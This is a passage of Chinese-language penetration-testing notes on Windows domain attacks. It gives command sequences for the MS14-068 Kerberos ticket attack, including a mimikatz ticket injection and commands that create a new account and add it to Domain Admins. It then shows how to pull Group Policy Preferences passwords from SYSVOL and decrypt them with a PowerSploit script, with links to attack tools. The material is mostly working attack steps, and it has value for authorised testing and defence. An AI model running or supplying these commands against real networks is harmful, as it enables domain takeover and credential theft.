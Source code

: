 > >
> > klist purge 清除所有凭证，等一会在执行下列命令
>
> 写入内存:
>
> > mimikatz.exe "kerberos::ptc c:\TGT_admin@xxx.com.ccache" 
>
> 若成功
>
> > dir \\dc.xxx.com\c$
> >
> > net user admin xxxxx@password /add /domain
> >
> > net group "Domain Admins" admin /add /domain
>
> msf 的模块 ``ms14_048_kerberos_checksum`` 也可以检测
>
> 工具：
>
> > https://www.t00ls.net/viewthread.php?tid=28207&from=favorites
> >
> > https://github.com/gentilkiwi/kekeo
>
> ### GPP 漏洞利用
>
> win2008 增加，一般域用户都可访问敏感文件
>
> 密码存在 SYSCOL 目录下:
>
> Groups.xml, 这个文件是域管通过 GPP 设置或修改本地密码留下的
>
> > Services\Services.xml,
> >
> > ScheduledTasks\ScheduledTasks.xml,
> >
> > Printers\Printers.xml,
> >
> > Drives\Drives.xml,
> >
> > DataSources\DataSources.xml
>
> > net use \\\域控(如pc.xx.com) password /user:xxx.com\username 
> >
> > dir \\\域控\SYSVOL /s /a > sysvol.txt
> >
> > findstr /i "groups.xml" sysvol.txt
>
> 找到 cpassword
>
> 解密过程：
>
> > set-executionPolicy bypass
> >
> > powershell -ep bypass   启动 ps
> >
> > Import-Module .\GPP.ps1
> >
> > Get-DecryptedCpassword  xxxxxxxxxxxxxx
>
> 脚本link：
>
> > https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPPassword.ps1
>
> 利用 SYSVOL 还原组策略中保存的密码